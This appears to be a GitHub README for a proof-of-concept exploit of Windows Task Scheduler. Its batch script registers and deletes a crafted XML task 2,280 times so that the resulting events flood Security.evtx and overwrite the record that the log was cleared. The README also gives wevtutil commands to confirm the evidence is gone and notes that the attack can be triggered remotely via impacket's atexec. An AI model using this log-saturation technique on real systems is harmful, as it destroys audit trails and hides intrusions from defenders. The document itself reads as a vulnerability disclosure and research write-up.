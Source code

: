 # Security Logs Saturation
By [Ruben Enkaoua](https://x.com/rubenlabs) and [Cymulate](https://cymulate.com/)
<br>
<br>
[Original Blog: Task Scheduler New Vulnerabilities](https://cymulate.com/blog/task-scheduler-new-vulnerabilities-for-schtasks-exe/)
<br>
<br>

#### Description
<br>

An attacker can register a task with a 5KB XML file - See [TaskScheduler-Logs-Tampering](https://github.com/rubenformation/TaskScheduler-Logs-Tampering), with a low privileged user and a password, which will not run. But the log is still registered, with a 3500 bytes buffer. It is possible to overwrite the whole Security.evtx database, since it is configured to contain maximum 20MB of logs by default. 
The vulnerability can also be triggered remotely by patching the author entry in the XML file sent over RPC in [impacket-atexec](https://github.com/fortra/impacket/blob/master/examples/atexec.py)
<br>
<br>

#### Requirements
<br>

- An unprivileged user to run the task
- A working password for the XML task to be registered, event if an error is generated
- The Security Policy "Audit Other Object Access Events" is enabled
<br>

#### Command
<br>

> Run the script
```bash
# Clear the logs to test if the only log "Clear Log" EVENT ID 1102 is overwritten.
# Check if the 1102 has been generated in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

@echo off
for /l %%i in (1,1, 2280) do ( 
    schtasks /create /tn poc /xml poc.xml /ru <user> /rp <password> >nul 2>&1 & schtasks /delete /tn poc /f >nul 2>&1
)
echo OK
```
<br>

> Check the logs
```bash
# Check if the 1102 log still remains in the Security.evtx database
wevutil qe Security /q:"*[System[EventID=1102]]" /f:text

# If the result is empty, the Security.evtx database has been overwritten. 
```
<br>

#### Notes
<br>
This code is for educational and research purposes only.<br>
The author takes no responsibility for any misuse of this code.
